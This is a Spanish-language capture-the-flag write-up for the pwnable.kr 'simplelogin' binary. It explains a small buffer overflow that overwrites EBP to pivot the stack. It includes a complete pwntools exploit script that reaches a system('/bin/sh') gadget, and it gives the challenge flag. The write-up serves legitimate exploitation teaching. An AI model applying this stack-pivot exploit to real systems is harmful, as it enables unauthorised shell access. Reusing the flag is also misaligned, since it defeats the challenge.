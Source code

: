 # simplelogin
<img width="136" height="176" alt="simple login" src="https://github.com/user-attachments/assets/603e37a8-7a9b-4ce8-bbbb-c8f24b218c46" />

```
checksec simplelogin
[*] '/home/kalcast/Laboratorio/pwn/simplelogin'
    Arch:       i386-32-little
    RELRO:      Partial RELRO
    Stack:      Canary found
    NX:         NX enabled
    PIE:        No PIE (0x8048000)
    Stripped:   No
```

## Resumen
El binario espera una entrada codificada en base64 del usuario, la decodifica, saca su hash md5 y lo compara con el correcto. 

La longitud de la cadena decodificada no puede exceder los 12 bytes. Se almacena en un buffer `input` de ese tamaño.

En `auth()` se intenta almacenar la cadena decodificada en un buffer de 8 bytes:

<img width="988" height="372" alt="2025-08-13-092901_988x372_scrot" src="https://github.com/user-attachments/assets/4f7a99f4-98ea-41a7-a52d-2b5098220c6d" />

Con ese pequeño buffer overflow podemos sobreescribir `EBP` y controlar a donde apunta `ESP` (stack pivoting). 

Movemos el stack a `input`  y aprovechamos que `correct()` implementa un `system("/bin/sh")` para hacer ROP alli:
```py
from pwn import *
import base64

p = process("./simplelogin")
#p = remote("pwnable.kr",9003)

payload =  p32(0x8049284)            # system("/bin/sh") (ret)
payload += b"A" * 4                  # padding
payload += p32(0x811eb40 - 4)        # input_address - 4 (pop ebp)
payload = base64.b64encode(payload)

p.sendlineafter(b"Authenticate : ", payload)
p.interactive()
```

`C0ntrol_EBP_E5P_EIP_and_rul3_th3_w0rld`
